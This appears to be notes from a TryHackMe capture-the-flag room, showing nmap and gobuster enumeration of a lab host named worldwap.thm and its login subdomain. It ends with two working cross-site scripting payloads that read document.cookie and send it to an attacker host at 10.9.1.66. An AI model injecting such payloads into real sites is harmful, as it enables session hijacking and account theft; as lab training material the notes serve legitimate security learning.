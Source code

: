 <code>
https://tryhackme.com/r/room/whatsyourname

### Enumeration
                                                                                                                 
┌──(kali㉿kali)-[~]
└─$ nmap -sV -A worldwap.thm     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-07 04:46 EST
Nmap scan report for worldwap.thm (10.10.133.78)
Host is up (0.036s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 19:17:91:7b:c7:75:e2:35:74:31:c9:34:8d:5f:c0:84 (RSA)
|   256 e7:3c:be:15:d0:ab:cc:10:93:de:1d:e9:bf:46:24:52 (ECDSA)
|_  256 11:1a:26:ec:d1:eb:56:dd:d4:b7:11:41:87:5f:b6:26 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Welcome
|_Requested resource was /public/html/
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.78 seconds

┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://worldwap.thm -x php,txt,html 
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 302) [Size: 0] [--> /public/html/]
/.html                (Status: 403) [Size: 277]
/public               (Status: 301) [Size: 313] [--> http://worldwap.thm/public/]
/api                  (Status: 301) [Size: 310] [--> http://worldwap.thm/api/]
/javascript           (Status: 301) [Size: 317] [--> http://worldwap.thm/javascript/]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://worldwap.thm/phpmyadmin/]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://login.worldwap.thm -x php,txt,html 

/.php                 (Status: 403) [Size: 283]
/.html                (Status: 403) [Size: 283]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/assets               (Status: 301) [Size: 325] [--> http://login.worldwap.thm/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 329] [--> http://login.worldwap.thm/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 329] [--> http://login.worldwap.thm/phpmyadmin/]
/.html                (Status: 403) [Size: 283]
/.php                 (Status: 403) [Size: 283]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 283]
Progress: 882240 / 882244 (100.00%)


                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://worldwap.thm:8081 -x php,txt,html 

/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/assets               (Status: 301) [Size: 320] [--> http://worldwap.thm:8081/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/phpmyadmin/]
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 279]



<script>fetch('http://10.9.1.66:8000/?cookie=' + btoa(document.cookie));</script>
<script>var i=new Image(); i.src="https://10.9.1.66:8000/?cookie="+btoa(document.cookie);</script>        

  
<\code>
